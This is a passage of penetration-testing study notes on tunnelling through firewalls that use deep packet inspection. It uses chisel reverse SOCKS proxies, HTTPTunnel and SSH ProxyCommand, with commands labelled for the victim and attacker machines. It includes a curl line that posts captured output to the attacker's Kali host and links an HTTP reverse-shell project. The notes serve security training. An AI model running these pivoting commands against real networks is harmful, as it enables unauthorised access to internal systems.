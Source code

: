 # LOCAL PORT FORWARDING - from our own attacking machine to a chisel server (victim)
./chisel server -p LISTEN_PORT # Compromised machine
./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT #Attacking
</code></pre>

## Deep Packet Inspection

{% hint style="info" %}
When SSH and other ports are not allowed into, out of, or across the network, but some HTTP/DNS port are open and unused.
{% endhint %}

### HTTP Tunneling

{% code overflow="wrap" %}
```bash
# To debug the connection
sudo tcpdump -nvvvXi tun0 tcp port 8080
# If tcpdump and chisel do not see any traffic/connection when we tried, troubleshoot by error-collecting-and-sending command string back to our Kali
chisel client $KALI_IP:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://$KALI_IP:8080/

# Chisel (encapsulates our data stream within HTTP and uses SSH protocol so data will be encrypted)
# In case A -> B -> C // want to reach C from B but B only has a port allowed for inbound and only HTTP traffic outbound so we need to use HTTP outbound and not typicial SSH pfwd
# reverse port forwarding (more or less like remote pfwd w/ SSH)
kali@kali:~$ chisel server --port 8080 --reverse # run the server on Kali
/tmp/chisel client $KALI_IP:8080 R:socks > /dev/null 2>&1 & # run the client on the compromised machine
# We should get verbose on the chisel server, let's check as well the SOCKS proxy on kali
ss -tulpn | grep 1080 # we should see 127.0.0.1:1080 with chisel running
# We cannot access SSH of machine C with ssh command since the port forwarding was not set via SSH. We need ProxyCommand option with ncat
kali@kali:~$ sudo apt install ncat
kali@kali:~$ ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' $USER@$C_TARGET_IP


# Example asuming deep packet content inspection feature has been implemented and only allows HTTP protocol. In addition, the firewall in this scenario only allows ports 80, 443, and 1234 inbound and outbound. 
# Get hts binary to place it on the victim in order to act as server from here:
https://http-tunnel.sourceforge.net/
# Alternative software
https://www.stunnel.org/
https://github.com/apurvsinghgautam/HTTP-Reverse-Shell
apt-cache search httptunnel
sudo apt install httptunnel
# Forwarding TCP port 8888 on our compromised Linux machine to TCP port 3389 on the Windows Server 2016 system
ssh -L 0.0.0.0:8888:192.168.1.110:3389 student@127.0.0.1
# Setting up the server component of HTTPTunnel (victim)
hts --forward-port localhost:8888 1234
ps aux | grep hts
ss -antp | grep "1234"
# Setting up the client component of HTTPTunnel (attacker)
htc --forward-port 8080 10.11.0.128:1234
ps aux | grep htc
ss -antp | grep "8080"
```
{% endcode %}
